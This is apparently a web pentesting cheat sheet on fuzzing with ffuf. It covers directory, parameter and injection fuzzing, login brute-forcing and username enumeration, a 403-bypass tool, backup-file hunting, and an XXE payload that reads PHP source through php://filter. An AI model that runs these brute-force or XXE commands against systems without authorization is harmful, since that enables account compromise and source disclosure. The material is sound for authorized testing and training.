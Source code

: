 # Fuzzing

The term fuzzing refers to a testing technique that sends various types of user input to a given interface to study how it would react. In the web case, it is to see valid routes or, failing that, to observe some different behavior.

## ffuf

### Essentials

```bash
# Essentials:
ffuf -c -w <WORDLIST> -u <URL>/FUZZ -t 50 # Simple fuzzing with threads.
ffuf -c -r -w <WORDLIST> -u <URL>/FUZZ # Redirects with the "-r" parameter.
ffuf -c -w <WORDLIST>:PALABRA -w <WORDLIST>:EXTENSION -u <URL>/PALABRA.EXTENSION -mc all # Double fuzzer
ffuf -fs 233 -c -w /opt/SecLists/Discovery/Web-Content/common.txt -u '<URL>/FUZZ' -mc all # Filter by size, not by status code (ideal for pages where the home page gives us a 404 code)
ffuf -c -w /opt/SecLists/Discovery/Web-Content/web-extensions.txt -u <URL>/indexFUZZ -mc all # Fuzzing of web extensions.
ffuf -c -w <WORDLIST> -u <URL>/FUZZ -mc all # Search by ALL codes.
ffuf -w <WORDLIST> -u <URL>/FUZZ -recursion -recursion-depth 1 -e .php -v # Recursive (recursion-depth 1 = depth up to 1 more path.
ffuf -c -w <WORDLIST> -u <URL>/FUZZ -H 'Cookie: <COOKIE>' # Header (Example with a cookie)
ffuf -c -w <WORDLIST> -u '<URL>/FFUF' -x socks5://127.0.0.1:1080 # Proxy
```

{% hint style="danger" %}
Always prioritize by the following filters: **-fs**, **-fw**, **-fc**, etc.
{% endhint %}

### Parameters or data (GET/POST)

```bash
ffuf -c -w $wordlist_params -u '<URL>/?FUZZ=key'
ffuf -c -w $wordlist_params -u <URL>/<PATH> -X POST -d 'FUZZ=key'
# Test POST requests but with GET content (useful for endpoint APIs that need a GET type parameter through POST):
ffuf -c -w $wordlist_params -u '<URL>/?FUZZ=key' -X POST
# Numeric values (the "-" will take the stdout from the first command):
seq 0 255 | ffuf -c -w - -u '<URL>/?id=FUZZ' -mc all
# Fuzzing with multiple wordlists (recommended for LFI):
ffuf -c -w $wordlist_params:PARAM -w values.txt:VAL -u "http://example.org/?PARAM=VAL"
```

### Injections

```bash
# Injections:
# GET:
ffuf -c -w /opt/SecLists/Fuzzing/special-chars.txt -u "<URL>/?asd=FUZZ" -mc all
ffuf -c -w /opt/SecLists/Fuzzing/special-chars.txt -u "<URL>/?asd=FUZZFUZZ" -mc all
ffuf -c -w /opt/SecLists/Fuzzing/special-chars.txt -u "<URL>/?asd=FUZZ " -mc all
ffuf -c -w /opt/SecLists/Fuzzing/special-chars.txt -u "<URL>/?asd=FUZZ FUZZ" -mc all
# POST:
ffuf -c -w /opt/SecLists/Fuzzing/special-chars.txt -u "<URL>" -d "<KEY>=FUZZ" -H "<CONTENTTYPE>" -mc all
ffuf -c -w /opt/SecLists/Fuzzing/special-chars.txt -u "<URL>" -d "<KEY>=FUZZFUZZ" -H "<CONTENTTYPE>" -mc all
# POST (show only headers):
ffuf -c -w /opt/SecLists/Fuzzing/special-chars.txt -u "<URL>" -d "<KEY>=FUZZ" -H "<CONTENTTYPE>" -mc all -v # Important the "-v", it can reveal different headers that we would not see with the naked eye.
for char in $(cat /opt/SecLists/Fuzzing/special-chars.txt); do echo "[+] Payload: $char"; curl '<URL>' -d "username=$char" -i; done # We can also use the "-v".
# Double special chars:
for char1 in $(cat /opt/SecLists/Fuzzing/special-chars.txt); do for char2 in $(cat /opt/SecLists/Fuzzing/special-chars.txt); do echo "[+] Payload: $char1$char2"; curl '<URL>' -d "username=$char" -i; done; done # We can also use the "-v".
# Double special chars (Only show status code):
for char1 in $(cat /opt/SecLists/Fuzzing/special-chars.txt); do for char2 in $(cat /opt/SecLists/Fuzzing/special-chars.txt
); do echo -n "[+] Payload: $char1$char2 : "; curl "<URL>" -o /dev/null -w "%{http_code}"; echo; done; done
```

{% hint style="danger" %}
With ffuf, it is very important to include the Content-Type header. Examples: `Content-Type: application/json` (JSON), `application/x-wwww-form-urlencoded` (PHP)
{% endhint %}

```bash
# Bruteforce
ffuf -c -w <WORDLIST> -X POST -d '<DATA>' -H '<HEADER>' -u <URL>
ffuf -c -w <WORDLIST> -X POST -d "username=<USER>&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -H "<COOKIE>" -u <URL>
ffuf -c -w <USERS WORDLIST>:W1,<WORDLIST>:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u <URL>
ffuf -c -w /opt/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&password=x" -H "Content-Type: application/x-www-form-urlencoded" -u <URL> -mr "username already exists"
```

{% hint style="danger" %}
Ask yourself the following question: **How does the framework handle** "`!#$%&/()`" **(special) chararcters?**
{% endhint %}

## 403 fuzzing

Tool to bypass 403 responses.

{% embed url="https://github.com/channyein1337/403-bypass" %}

```bash
git clone https://github.com/channyein1337/403-bypass
cd 403-bypass
python3 403-bypass.py -u '<URL>' -p '<PATH>'
python3 403-bypass.py -u 'http://10.10.10.10' -p 'private/index.php' # Example
```

## **Tips**

#### Change the parameter type to an array

```bash
http://example.com/index.php?test[]
```

In this case, the test parameter will be of type array. This is ideal to see if an error occurs.

#### 403 Forbidden

When obtaining a Forbidden (403) in the status code of the server-side response, it is recommended to continue investigating, since in spite of showing such response, we can continue enumerating directories and files within that directory, where after finding valid resources we see that these are visible from the web. To have a practical case, let's suppose that we have a directory /design that returns a Forbidden (403). One thing we can do is to set up a double Payload enumeration from ffuf in order to discover existing resources under that directory.

#### **Backups checking**

Web servers may keep backups of some files. Once you have found all the files, search for interesting file backups. The most common variants for naming a backup are:

```
file.ext~, #file.ext#, ~file.ext, file.ext.bak, file.ext.tmp, file.ext.old, file.bak, file.tmp, file.old
```

We can use the bfac tool to automate this search:

{% embed url="https://github.com/mazen160/bfac" %}

```bash
bfac --url http://example.com/test.php --level 2
```

#### File or directory name format

When searching for files or directories, it is very important to look at the name format of one of them. For example, let's suppose that through an XXE we manage to include .php files in base64 and we observe the following content of the index.php:

```php
<?php
include_once('../Autoload.php');
include_once('../Route.php');
include_once('../Output.php');
include_once('../View.php');

Route::load();
Route::run();
?>
```

We note that it is using the Laravel framework (by the "Route::" structure) and we see that the format of the file names begin with the letter in uppercase, it is not all lowercase. In that case, we could modify the wordlist as follows:

```bash
sed -e "s/\b\(.\)/\u\1/g" <WORDLIST>
```

And now, we can fuzz all the directories looking for files using the modified wordlist:

```bash
ffuf -c -w wordlist.txt -X POST -u 'http://10.10.211.87/api/products?format=xml' -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=../routes/FUZZ.php"> ]><data><productId>&xxe;</productId></data>'
```
